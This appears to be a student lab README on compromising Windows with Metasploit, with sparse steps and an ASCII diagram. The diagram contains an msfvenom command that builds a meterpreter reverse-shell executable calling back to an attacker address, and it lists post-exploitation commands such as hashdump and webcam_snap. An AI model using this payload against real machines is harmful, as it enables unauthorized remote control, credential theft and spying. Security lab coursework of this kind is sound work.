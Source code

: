 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By- T.Manikandan
### Register number: 212224110037

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```